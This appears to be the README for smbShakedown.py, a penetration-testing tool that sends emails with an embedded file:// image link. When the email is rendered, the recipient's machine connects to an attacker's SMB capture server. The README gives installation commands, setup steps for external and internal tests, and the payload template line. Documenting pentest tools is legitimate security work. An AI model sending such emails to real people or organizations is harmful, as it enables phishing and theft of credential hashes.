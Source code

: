 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    chmod +x smbShakedown.py
    python smbShakedown.py

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server:
    
    1.Configure SMTP Relay server address:
    
    2.Enter SMTP Relay server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email: 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally:
    EX: Use a VPS

#Internal Pentest
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally:
    EX: Metasploit's SMB Capture server can be configured to automatically launch.

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
